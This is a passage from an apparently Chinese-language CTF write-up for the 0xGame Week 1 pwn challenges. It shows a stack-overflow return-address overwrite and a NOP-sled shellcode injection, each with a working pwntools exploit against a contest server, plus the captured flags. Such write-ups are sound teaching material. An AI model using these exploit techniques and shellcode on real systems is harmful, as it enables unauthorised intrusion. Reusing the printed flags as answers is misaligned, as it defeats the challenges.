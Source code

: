 ```c
}
```

read 存在溢出漏洞，直接覆盖掉 ret 地址即可得到 shell。

```python
from pwn import *

conn = remote("8.130.35.16", 51002)
conn.recvuntil("want.\n")
conn.sendline(b"a" * 0x48 + p64(0x401298))
conn.interactive()

# 0xGame{W3lC0me_4b0rd_PWN_L4nd!_k20cu2c7}
```

### [Week 1] 随便乱搞的 shellcode

> shell 壳 code 码，这怎么就乱搞了？

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char *buf; // [rsp+8h] [rbp-8h]
  void (*bufa)(void); // [rsp+8h] [rbp-8h]

  bufinit(argc, argv, envp);
  buf = (char *)mmap((void *)0x20230000, 0x1000uLL, 7, 34, -1, 0LL);
  puts("Now show me your code:");
  read(0, buf, 0x100uLL);
  puts("Implementing security mechanism...");
  v3 = time(0LL);
  srand(v3);
  bufa = (void (*)(void))&buf[rand() % 256];
  close(1);
  puts("Done!");
  bufa();
  return 0;
}
```

程序会随机执行 buf 中的一条命令，可以把 buf 的前面都填充 `nop` 指令，将 shellcode 放在 buf 的末尾来增加成功执行的概率。

`nop`：空指令（0x90），占用一个指令的时间，但什么都不做，并继续执行接下来的指令。

`str.rjust(width[, fillchar])`：将字符串右对齐到 width 长度，并在左侧填充 fillchar。

因为程序将标准输出流关闭了，所以得到 shell 以后可以执行 `exec 1>&2` 来将默认标准输出流重定向到标准错误流输出。

```python
from pwn import *

context(os="linux", arch="amd64")

conn = remote("8.130.35.16", 51003)
conn.recvuntil("code:\n")
conn.sendline(asm(shellcraft.sh()).rjust(0x100, b"\x90"))
conn.interactive()

# 0xGame{Try_to_Wr1t3_by_yourse1f!_an9d02cy}
```

